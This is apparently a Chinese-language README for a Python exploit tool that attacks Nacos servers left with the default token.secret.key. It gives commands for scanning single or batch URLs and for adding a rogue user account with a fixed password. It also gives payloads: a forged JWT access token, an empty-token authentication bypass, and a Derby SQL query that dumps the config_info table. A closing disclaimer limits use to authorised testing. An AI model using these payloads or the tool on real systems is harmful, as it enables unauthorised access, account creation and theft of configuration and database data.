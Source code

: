 # Nacos_default.token

Nacos 平台在默认配置下未对 token.secret.key 进行修改，攻击者通过漏洞可以获取服务器数据库/OSS等权限。

## 工具利用

python3 Nacos_default.token.py -u http://127.0.0.1:1111 单个url测试

python3 Nacos_default.token.py -a http://127.0.0.1:1111 添加用户m2orz/zzz321..

python3 Nacos_default.token.py -f url.txt 批量检测

payload1:http://xxx.com/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9

payload2:http://xxx.com/nacos/v1/auth/users?accessToken=&pageNo=1&pageSize=9

23年9月15日更新

增加sql注入扫描

payload4:nacos/v1/cs/ops/derby?sql=select * from config_info

扫描结束后会在当前目录生成存在漏洞url的vuln.txt


## 免责声明

此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
